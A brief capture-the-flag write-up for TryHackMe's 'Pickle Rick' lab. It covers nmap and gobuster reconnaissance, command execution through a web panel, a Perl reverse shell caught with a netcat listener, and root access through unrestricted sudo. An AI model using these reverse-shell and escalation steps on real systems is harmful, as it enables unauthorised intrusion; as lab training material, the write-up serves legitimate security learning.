

# Pickle Rick - TryHackMe CTF Writeup

CTF link: 

[TryHackMe | Pickle Rick](https://tryhackme.com/room/picklerick)

Check ports with nmap 

> nmap -sV -sC 10.10.73.243
> 

  

We found http and ssh port in target server; http port exist so there should be a website. Check it.

  

We should look hidden directories in this website. “gobuster” will help. 

> gobuster dir -u [http://10.10.73.243](http://10.10.73.243/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
> 

  

We found some directories, we should check. And also we should check page source, we can find something useful.

I think we got everythink we need.

  

Command panel, we should try something. “ls” maybe

> 

We type “which perl” to see if there is perl and where

  

In “Source” find PERL and copy code. Don’t forget to change  - Socket;$i="10.0.0.1"; - type your tun0 address and run a listening server.

> nc -lvnp 1234
> 

  

Execute. And we got it.

  

We found first flag.

  

Look around. We found second one.

  

We can not cd to root. We should need a solution.

  

We can check what we can do.

> sudo -l
> 

  

We can do whatever we want, so let’s get the bash.

> sudo bash -i
> 

  

We got the root privilage. And got the third flag. Well Done.

  
